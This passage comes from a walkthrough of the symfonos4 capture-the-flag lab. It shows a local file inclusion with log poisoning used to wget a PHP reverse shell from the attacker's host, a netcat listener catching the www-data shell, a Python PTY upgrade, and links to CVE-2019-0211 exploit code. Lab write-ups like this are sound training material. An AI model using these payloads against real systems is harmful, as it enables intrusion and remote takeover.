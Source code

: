 Next up, I need to get that file to the victim machine. We can use our template to craft a command (and abuse Firefox's awesome auto-encode feature):

    http://192.168.56.108/sea.php?file=../../../../../../var/log/auth&c=wget http://192.168.56.102:8000/rsh.php -O /var/www/html/gods/rsh.log
    
If this worked, we can just go to `http://192.168.56.108/sea.php?file=rsh`. We fire up our netcat listener (`nc -lvp 1234`) aaaaaand... get nothing. Boo.

But perhaps permissions are wrong? What if we write to a known-writable location (like `/tmp`?) Let's try a different command:

    http://192.168.56.108/sea.php?file=../../../../../../var/log/auth&c=wget http://192.168.56.102:8000/rsh.php -O /tmp/rsh.log
    
We navigate to `http://192.158.56.108/sea.php?file=../../../../../../tmp/rsh` and pop back over to our netcat listener.

    root@kali /tmp/asdfa # nc -lvp 1234
    listening on [any] 1234 ...
    192.168.56.108: inverse host lookup failed: Unknown host
    connect to [192.168.56.102] from (UNKNOWN) [192.168.56.108] 39820
    Linux symfonos4 4.19.0-5-686 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) i686 GNU/Linux
     19:43:32 up  5:10,  1 user,  load average: 0.00, 0.02, 0.20
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ 

Huzzah! A shell! But `sh` is bad and makes me sad. Let's get a real TTY and use bash. We can rely on Python to get a PTY:

```
$ python -c 'import pty; pty.spawn("/bin/bash")' 
www-data@symfonos4:/$
```

And we're in business.

## 3. Escalate, baby!

You have two choices here. You can do recon the right way (covered below), or you can do something insanely dumb and try CVE-2019-0211 like I did. If you go down the CVE path, you'll be modifying ELF offsets, tearing your hair out over why a PHP Use-After-Free isn't working, and many other things. I would not recommend going down this rabbit hole.

If you do, though, (maybe you just want to learn?), take a look at [the official writeup](https://cfreal.github.io/carpe-diem-cve-2019-0211-apache-local-root.html), [some PoC code](https://github.com/cfreal/exploits/blob/master/CVE-2019-0211-apache/cfreal-carpediem.php), and [this technical analysis](http://www.programmersought.com/article/61441072610/). All in all, it's an amazing rabbit hole to go down and is a pretty beautiful exploit. I learned a lot trying to get it to work, but... it won't really help you solve this CTF. If you find a way to get it to work, hit me up [on Keybase](https://keybase.io/kazwolfe).

So, sidetrack aside, we start with our recon. As `netstat` isn't installed on this machine, we can use `ss` instead:
